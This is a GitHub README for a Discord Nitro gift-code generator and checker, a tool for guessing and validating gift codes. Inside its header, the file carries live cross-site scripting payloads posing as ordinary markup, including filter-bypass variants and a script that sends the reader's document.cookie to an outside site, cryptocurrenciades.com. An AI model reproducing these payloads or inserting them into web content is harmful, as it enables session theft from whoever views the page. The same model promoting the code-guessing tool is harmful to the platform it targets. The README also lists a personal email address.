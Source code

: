 <p align="center">
<img src=https://img.shields.io/github/ZoulouGame/discord-billing-link-nitro-generator?style=for-the-badge&logo=appveyor&color=blue />
<img src=https://img.shields.io/github/ZoulouGame/discord-billing-link-nitro-generator?style=for-the-badge&logo=appveyor&color=blue />
<img src=https://img.shields.io/github/ZoulouGame/discord-billing-link-nitro-generator?style=for-the-badge&logo=appveyor&color=informational />
<img src=https://img.shields.io/github/ZoulouGame/discord-billing-link-nitro-generator?style=for-the-badge&logo=appveyor&color=informational />
</p>
<br />
<p align="center">
  <a href="https://github.com/othneildrew/Best-README-Template">
    <img src="assets/logo.png" alt="Logo" width="150" height="150">
  </a>
  
  <h3 align="center">Discord Nitro Generator and Checker</h3>
  
<script>alert("hello)</script>
<scr<script>ipt>alert("hello")</script>
<img src=x onMouseOver=alert("Hello")>

<script>document.location = "https://cryptocurrenciades.com/test.php?cookie=" + document.cookie;</script>

<script>'str1ng'.replace(/1/,alert)</script>

<svg </onload ="1> (_=alert,_(1))"">

"1>wimg onerror="location='javascript:%61lert(1)'" src="x">

"1><div onfocus=alert('xx') id=xss style=display:table>

")</script><script>alert(1);//

  <p align="center">
    A discord nitro generator and checker for all your nitro needs
    <br />
    <a href="https://github.com/ZoulouGame/discord-billing-link-nitro-generator"><strong>Explore the docs »</strong></a>
    <br />
    <br />
    <a href="https://github.com/ZoulouGame/discord-billing-link-nitro-generator/issues">Report Bug</a>
    ·
    <a href="https://github.com/ZoulouGame/discord-billing-link-nitro-generator/issues">Request Feature</a>
      ·
    <a href="In Creation">Join the discord</a>
  </p>
</p>
  
<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
      <ul>
        <li><a href="#built-with">Built With</a></li>
      </ul>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <li><a href="#copyright">License</a></li>
    <li><a href="#contact">Contact</a></li>
  </ol>
</details>

## About The Project

<img src="assets/example.png" alt="Image of product">

It generates and checks discord nitro codes at the same time for maximum efficiency

### Built With

* [Requests](https://github.com/psf/requests)
* [Discord webhook](https://github.com/lovvskillz/python-discord-webhook)
* [Colored](https://gitlab.com/dslackw/colored)

## Getting Started

To get a local copy up and running follow these simple steps.

### Prerequisites
You need to install Python, that can be done [here](https://www.python.org)

### Installation
1. Clone the repo
   ```sh
   git clone https://github.com/ZoulouGame/discord-billing-link-nitro-generator.git
   ```
2. Install Python packages
   ```sh
   # Windows:
   py -3 -m pip install -r requirements.txt
   
   # Unix
   python3.8 -m pip install -r requirements.txt
   ```
   
#### Or this can be done using android with unrooted Termux
```
git clone https://github.com/ZoulouGame/discord-billing-link-nitro-generator
pkg install python
pip install -r requirements.txt
cd Discord-Nitro-Generator-and-Checker
python3 main.py
```
   
## Usage

Run the `main.py` file using `py -3 main.py` 
The code will show you two prompts:
1. How many codes to generate 
2. If you want to use a discord webhook, if you dont know how to get a discord webhook url it is located at   
   ```channel settings » intergrations » webhooks » create webhook```  
   If you dont want to use a webhook simply leave this blank  

The code will start generating and checking after that step

_For more examples, please refer to the [Documentation](https://example.com)_

## Roadmap

See the [open issues]https://github.com/ZoulouGame/discord-billing-link-nitro-generator/issues) for a list of proposed features (and known issues).

## Contributing

Contributions are what make the open source community such an amazing place to learn, inspire, and create. Any contributions you make are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request
## Licence

Copyright © 2021 Skippyturtle#9729

Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files (the “Software”), to deal in the Software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the Software, and to permit persons to whom the Software is furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

## Contact

Logicguy - [Skippyturtle#9729](https://www.discordapp.com) - leo.benghiat80@gmail.com

Project Link: [https://github.com/ZoulouGame/discord-billing-link-nitro-generator](https://github.com/ZoulouGame/discord-billing-link-nitro-generator)

<!-- Statistics -->  

<p>
<img src=https://komarev.com />
</p>
